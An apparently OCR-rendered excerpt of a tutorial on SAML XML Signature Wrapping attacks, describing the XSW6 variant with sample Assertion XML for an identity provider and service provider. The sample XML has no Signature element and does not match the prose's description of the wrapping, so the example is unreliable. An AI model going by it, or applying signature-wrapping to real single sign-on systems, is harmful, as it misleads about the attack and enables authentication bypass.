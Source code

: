 ```
</AuthnStatement>
</Assertion>

```
In the example SAML code above, a copy of the original Assertion is created and a new ID is assigned as `_e55c9c3e8e9f6744e6e8d18d5f7fdd5b` . The contents of this copy Assertion are replaced with a portion of the signed Assertion. The result is an unsigned copy with the original Assertion at the end of the SAML message. This allows the attacker to override and modify the signed Assertion.

- XSW6 :// replaces a value found in the copy of the signed Assertion and adds a copy of the original unsigned Assertion immediately after the signature. The attacker replaces a value found in the signed Assertion's copy. It then creates a copy containing the modified Assertion and appends that copy immediately after the signature. Finally, it creates a copy of the original unsigned Assertion and attaches that copy to the SAML message. In this way, the original Assertion may appear to be valid, while misleading the service provider accepting the signed Assertion containing the attacker's modified value.

```
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
<Issuer>https://identity-provider.com</Issuer>
<Subject>
<NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
<SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
<SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
</SubjectConfirmation>
</Subject>
<Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
<AudienceRestriction>
<Audience>https://service-provider.com</Audience>
</AudienceRestriction>
</Conditions>
<AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a">
<AuthnContext>
<AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
</AuthnContext>
</AuthnStatement>
</Assertion>

<!-- Copy of Assertion modified for XSW6 scenario -->
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
<Issuer>https://identity-provider.com</Issuer>
<Subject>
<NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
<SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
<SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
</SubjectConfirmation>
</Subject>
<Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
<AudienceRestriction>
<Audience>https://service-provider.com</Audience>
</AudienceRestriction>
</Conditions>
<AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b">
<AuthnContext>
<AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
</AuthnContext>
</AuthnStatement>
</Assertion>
```